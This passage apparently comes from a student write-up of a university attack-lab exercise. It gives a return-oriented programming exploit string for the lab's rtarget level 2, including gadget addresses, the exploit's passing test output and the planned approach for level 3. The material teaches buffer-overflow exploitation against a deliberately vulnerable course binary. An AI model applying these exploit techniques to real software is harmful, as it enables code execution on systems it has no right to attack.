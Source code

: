 ```c
/* 40 bytes of data */
01 02 03 04 05 06 07 08 09 00
01 02 03 04 05 06 07 08 09 00
01 02 03 04 05 06 07 08 09 00
01 02 03 04 05 06 07 08 09 00
/* address of pop, little-endian */
AB 19 40 00 00 00 00 00
/* cookie, little-endian, fill up to 8 bytes */
FA 97 B9 59 00 00 00 00
/* address of mov, little-endian */
A2 19 40 00 00 00 00 00
/* address of touch2, little-endian */
EC 17 40 00 00 00 00 00
```

Testing:
```
$ ./hex2raw < rtarget.l2.exploit.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

<br>

## Phase 5: RTARGET Level 3

### Task:
- When `getbuf` returns, pass control to `touch3`.
- Also pass a pointer to a string representation of my `cookie` as the argument.

### What we need:
- String representation of `cookie` on the stack.
- Move address of `cookie` to `%rdi`.
- Add address of `touch3` onto the stack.

### What to do:
- First, we've seen in phase 3 of CTARGET that `touch3` will allocate a large stack frame, which means we cannot put the cookie in the `getbuf` stack frame but instead have to put it in the `test` stack frame, above the `touch3` address.

- Because the stack addresses are randomized, we cannot determine the address of the `cookie` string on the stack. But what we could do is to use `%rsp` as a basis for calculating addresses. In this way, we can store `cookie` string at some `%rsp + bias` location and will be able to calculate its address using `%rsp`.

